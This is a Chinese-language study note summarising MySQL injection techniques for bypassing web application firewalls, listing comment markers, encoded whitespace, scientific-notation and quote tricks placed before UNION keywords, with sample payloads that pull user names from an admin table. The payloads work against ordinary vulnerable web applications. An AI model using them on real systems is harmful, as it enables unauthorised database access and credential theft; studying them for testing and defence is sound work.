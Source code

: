 #### 0x01 前言

最近在网上搜集学习到关于 mysql 注入的操作，故做一个小总结。



#### 0x02 测试

[我的WafBypass之道 （SQL注入篇）](https://xz.aliyun.com/t/368)这篇文章结尾部分提到的，把每个 SQL 关键字两侧可插入的点称之为”位“，类似下图：

![](https://xzfile.aliyuncs.com/media/upload/picture/20201108164132-34146e88-219e-1.png)



我要总结的这些操作，也是围着这五个位，下面开始。

##### 位置一



(1)注释符  

`/**/  %23 --+ /*!50000union*/ `

```
id=2/**/union select 1,user,3 from admin
```


(2)空白符

`%09,%0a,%0b,%0c,%0d,%20,%a0`

```
id= 1 %0a union select 1,user,3 from admin
```


(3)科学计算法

`e .`

```
id= 2e0 union select 1,user,3 from admin

id= 1.union select 1,user,3 from admin

id= 1.1union select 1,user,3 from admin

还有%1%2E   %2%2E    %3%2E   

id= 1'  %1%2Eunion select user(),2 %23
```


(4)单引号双引号

```
id= 1'  'xx'union select user(),2 %23

id= 1'  ""union select user(),2 %23 
```
需要闭合的先闭合，然后成对使用单双引号
